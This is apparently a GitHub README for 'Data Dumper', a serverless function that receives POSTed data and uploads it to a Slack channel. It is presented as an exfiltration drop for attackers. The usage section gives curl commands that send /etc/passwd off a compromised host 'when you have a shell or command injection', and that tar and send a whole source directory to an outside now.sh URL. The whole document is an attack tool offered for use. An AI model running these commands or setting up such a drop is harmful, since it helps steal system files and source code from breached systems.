


# Data Dumper
This serverless function takes any data sent to it in a POST body request and writes to a file in Slack using the [Slack Files Upoad API](https://api.slack.com/methods/files.upload). A message is then sent to the channel with the uploaded file.

For convenience, the function takes whatever path you POST to and uses that as as the filename for the uploaded paht. If the data is POSTed to the `/` path, a UUID is generated instead.

## Deployment
This function requres two environment variables:

 * `SLACK_TOKEN` - An OAuth Access token for your Slack App. The app also needs the necessary permissions, including the "Upload and modify files as user" scope.
 * `SLACK_CHANNEL` - the Channel ID to post the message to

I recommend using Now's secrets to store these values. The function is configured to look for the secrets `slack-token` and `slack-channel`. To deploy the function:

```
$ now secrets add slack-token "xxxx-token-here"
$ now secrets add slack-channel "Cxxxxx"
$ now
```

## Usage
The function reads any raw POST body data and uploads is a file. It's generally designed to be used with `curl --data-binary` from the command line.

You can control the filename by changing the path you POST to.

For example, to exfiltrate `/etc/passwd` when you have a shell or command injection:

```
$ curl --data-binary @/etc/passwd https://datadump-slack-ogfklyqrmv.now.sh/passwd_file
```

This will upload the file and alert the channel in Slack with the file



It's also possible to upload with curl from  `stdin`, so you can chain commands together and exfiltrate entire directories using tar:

```
$ tar czf - /app/src | curl --data-binary @- https://datadump-slack-ogfklyqrmv.now.sh/app_src123.tar.gz
```

